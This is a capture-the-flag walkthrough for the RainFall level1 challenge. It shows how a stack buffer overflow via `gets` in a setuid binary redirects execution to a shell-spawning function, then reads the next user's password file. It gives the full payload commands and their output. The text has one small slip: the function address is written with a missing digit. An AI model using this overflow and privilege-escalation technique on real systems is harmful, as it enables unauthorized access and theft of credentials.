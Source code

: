 # level1 walkthrough

We are given a `level1` suid binary, which is a simple C program that awaits for input and then exits.

By dumping the binary with `objdump`, we can see it has a `main` function, as well as a `run` function. See [source.c](./source.c) for more information.

The `main` function has a `gets` call, while the `run` function has a call to `system("/bin/sh")`; the goal of this level is to hijack our way into the `run` function.

We can do so by trying to overwrite the return address on the stack via a buffer overflow; we'll first figure out a right offset:

```
level1@RainFall:~$ python -c 'print "A"*100' | ./level1`
Segmentation fault (core dumped)
level1@RainFall:~$ python -c 'print "A"*50' | ./level1`
level1@RainFall:~$ python -c 'print "A"*75' | ./level1`
level1@RainFall:~$ python -c 'print "A"*76' | ./level1`
Illegal instruction (core dumped)
```

So we know that the offset is 76 bytes. We can then take the address of the `run` function (`0x0804844`), convert it to little-endian hex bytes (`\x44\x84\x04\x08`), and append it to our payload:

```
level1@RainFall:~$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Good... Wait what?

We got the print statement from the `run` function, but where's our shell?!

Well, since we're passing the input as a pipe, `/bin/sh` won't see an interactive stdin, and will just terminate. We can get around this issue with a little shell trickery. Here's the final exploit:

```
level1@RainFall:~$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
<pass>
```

And there we have it, we can now login as `level2`!
